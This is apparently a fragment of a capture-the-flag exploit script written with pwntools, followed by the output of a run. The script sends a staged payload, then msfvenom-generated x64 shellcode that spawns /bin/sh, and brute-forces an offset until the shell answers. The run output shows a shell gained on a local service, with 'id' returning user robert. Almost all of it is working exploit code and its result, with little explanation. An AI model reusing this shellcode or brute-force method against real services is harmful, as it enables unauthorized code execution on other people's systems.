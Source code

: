 ```python
        log.info("Iterations: {}".format(iterations))
        for i in range(1, iterations):
            p.send(payload)
        log.info("EDX should now be {:#4x}".format(edx_should_be))

        # second stage
        #  ./msfvenom -p linux/x64/exec cmd=/bin/sh -f py -v shell
        #  No platform was selected, choosing Msf::Module::Platform::Linux from the payload
        #  No Arch selected, selecting Arch: x64 from the payload
        #  No encoder or badchars specified, outputting raw payload
        #  Payload size: 47 bytes
        #  Final size of py file: 248 bytes
        shell = "\xcc" if local and debug else ""
        shell += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
        shell += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
        shell += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
        shell += "\x00\x56\x57\x48\x89\xe6\x0f\x05"

        log.info("Sending shellcode")
        p.send(shell)

        if local:
            # if we are local there is no tty error message
            sleep(0.1)
            p.sendline("id")
            output = p.recvline(timeout=0.1)
            if output and "uid=" in output:
                log.info("Found offset!!! {}".format(offset))
                break
        else:
            # check for no tty message
            p.sendline()
            output = p.recvline(timeout=0.5)
            if output and "tty" in output:
                log.info("Found offset!!! {}".format(offset))
                break

        if offset == 255:
            log.error("No valid offset found!")
        p.close()
    except EOFError:
        log.warning("Error on offset {}".format(offset))
        p.close()
    finally:
        offset += 1

p.interactive()
```

Last output from the run:
```
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Payload: \x01\xd2\x5f\x48\x83\xef\x25\xff\xe7\x90
[*] Iterations: 8
[*] EDX should now be 0x500
[*] Sending shellcode
[*] Found offset!!! 37
[*] Switching to interactive mode
$ $ id
uid=1003(robert) gid=1003(robert) groups=1003(robert)
$ $
```
